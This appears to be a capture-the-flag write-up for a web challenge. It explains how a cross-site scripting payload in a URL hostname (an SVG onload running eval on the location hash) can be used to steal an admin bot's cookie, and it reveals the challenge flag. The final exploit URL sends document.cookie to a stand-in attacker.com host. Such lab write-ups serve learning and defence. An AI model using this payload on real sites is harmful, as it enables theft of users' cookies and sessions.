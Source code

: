 * After 1 Hour, I realized, We can Write our Javascript Outside the Hostname and call the payload from Hostname. 

Ex:
```
https://https://wsc-2022-web-5-bvel4oasra-uc.a.run.app/visit?url=https://<svg%0Conload=eval(location.hash.slice(1))>#alert('AABBCCaabbcc')
```

* `location.hash.slice(1)` return the value after `#`
* `eval` is a Javascript Function to run the Javascript Code.

<img src="https://i.imgur.com/6WA3zKc.png">

* Now, Browser Doesn't Converted the Upper Case to Lowercase. 

## Flag:

```js
try {
            await page.setCookie({
                name: 'flag',
                value: process.env.FLAG,
                domain: cookieDomain,
                httpOnly: false,
                samesite: 'strict'
            })
```

From the Above Code, We know that, Flag is in the Admin Bot's Cookie

### Exploit: 

URL:

```
https://chal.link/visit?url=https://<svg%0Conload=eval(location.hash.slice(1))>/#window.location='https://attacker.com/?'+document.cookie
```

> Flag: wsc{wh0_kn3w_d0m41n_x55_w4s_4_th1n6}